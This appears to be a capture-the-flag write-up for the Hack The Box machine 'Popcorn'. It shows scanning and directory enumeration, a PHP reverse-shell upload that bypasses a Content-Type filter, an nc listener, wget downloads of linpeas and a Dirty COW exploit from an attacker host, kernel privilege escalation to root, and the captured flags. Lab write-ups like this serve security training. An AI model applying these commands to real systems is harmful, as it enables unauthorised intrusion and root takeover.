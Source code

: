 # Popcorn - Medium

```shell
sudo vim /etc/hosts
#add popcorn.htb

nmap -T4 -p- -A -Pn -v popcorn.htb

gobuster dir -u http://popcorn.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml -t 50

searchsploit torrent hoster
#finds exploit

#upload torrent
#modify screenshot
#intercept using Burp Suite and modify Content-Type

nc -nvlp 4444
#we get reverse shell

which python

python -c 'import pty;pty.spawn("/bin/bash")'

#get linpeas from attacker server
cd /tmp

wget http://10.10.14.4:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
#shows many kernel exploits
#run dirty cow exploit

wget http://10.10.14.4:8000/dirty.c

which gcc

gcc -pthread dirty.c -o dirty -lcrypt

./dirty
#creates new user
#takes some time

su firefart
#use password

id
#root
```

* Open ports & services:

  * 22 - ssh - OpenSSH 5.1p1 (Ubuntu)
  * 80 - http - Apache httpd 2.2.12

* Now, the webpage on port 80 does not show anything useful; it just informs that the web server works.

* We can check for hidden directories using ```gobuster``` - it finds the following directories:

  * /test
  * /torrent
  * /rename

* /test page contains phpinfo() - reading through shows the page is using ```PHP v5.2.10-2ubuntu6.10```, 'document_root' is ```/var/www```, and 'file_uploads' is enabled.

* /torrent leads to 'Torrent Hoster', and this is related to torrenting software.

* /rename page shows syntax for 'Renamer API'; it might come in handy later:

```index.php?filename=old_file_path_an_name&newfilename=new_file_path_and_name```

* Now, we can use 'Register' to create an account in 'Torrent Hoster', and login to explore the site.

* We have an option to upload torrents as well.

* Using ```searchsploit```, we can see that there is a file upload exploit in this software.

* When we try to upload a PHP reverse shell by navigating to '/torrent/torrents.php?mode=upload', it detects invalid file type.

* However, we are able to upload genuine .torrent files.

* After upload, we have an option to edit the torrent screenshots by uploading image files - we can attempt to upload reverse shell here.

* While we are unable to upload .php files, we can attempt to use double extensions by uploading .jpg.php files - this is also invalid.

* To check the filters being used, we can intercept the request using ```Burp Suite```, and forward it to Repeater.

* We are able to upload genuine .jpg files here, and these uploads can be checked in /torrent/upload directory.

* To attempt image filter evasion, we need to modify fields such as 'Content-Type', 'filename with extension' and 'magic bytes'.

* On changing the 'Content-Type' to 'image/jpg', we are able to upload the file 'reverse-shell.jpg.php'.

* Now, we can setup a listener and access the uploaded file in /torrent/upload - this gives us a reverse shell.

* We can begin enumeration process by checking common directories, followed by running ```linpeas```.

* ```linpeas``` shows multiple possible kernel exploits - we can attempt running the ```dirty_cow``` exploit (CVE-2016-5195).

* We can run this exploit by transferring 'dirty.c' to the victim machine; compile & run the exploit.

* After a while, we can switch to the newly-created user - we get root shell now.

```markdown
1. User flag - d02cd94d9e24dc22dd7e0d06e8fa0ad3

2. Root flag - b0a299a792ac649b9f2c2648bc68c13f
```
